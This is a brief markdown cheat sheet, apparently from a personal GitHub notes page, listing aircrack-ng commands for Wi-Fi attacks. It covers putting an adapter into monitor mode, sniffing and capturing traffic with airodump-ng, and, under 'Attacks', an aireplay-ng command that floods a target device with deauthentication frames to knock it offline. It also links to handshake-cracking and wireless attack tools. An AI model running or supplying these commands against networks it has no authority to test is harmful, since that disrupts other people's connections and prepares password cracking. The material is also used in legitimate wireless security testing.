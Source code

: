 # WI-FI, wifi

## Enable monitor wifi mode

- `sudo ip link set wlp0s20f0u3 down`

- `sudo airmon-ng check kill`

- `sudo iw dev wlp0s20f0u3 set type monitor`
- `sudo ip link set wlp0s20f0u3 up`

### switch channel

- `sudo airmon-ng start wlp0s20f0u3 3`

## Packet sniffing

- `sudo airodump-ng wlp0s20f0u3` - sniff 2.4Ghz networks
- `sudo airodump-ng --band a wlp0s20f0u3` - sniff 5Ghz networks
- `sudo airodump-ng --band abg wlp0s20f0u3` - sniff both 2.4Ghz and 5Ghz networks

- `sudo airodump-ng --bssid EE:EE:EE:BB:BB:BB --channel 2 --write sniffed-packets wlanmon0` - save packets to a file

## Attacks

Disconnect a device from the network:

- `sudo aireplay-ng --deauth 10000000 -a EE:EE:EE:BB:BB:BB -c CC:CC:CC:AA:AA:AA wlanmon0`

- [handshake cracker](https://github.com/semeion/handshake-cracker)

## more tools

- [kismet](https://github.com/kismetwireless/kismet)
- [airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)
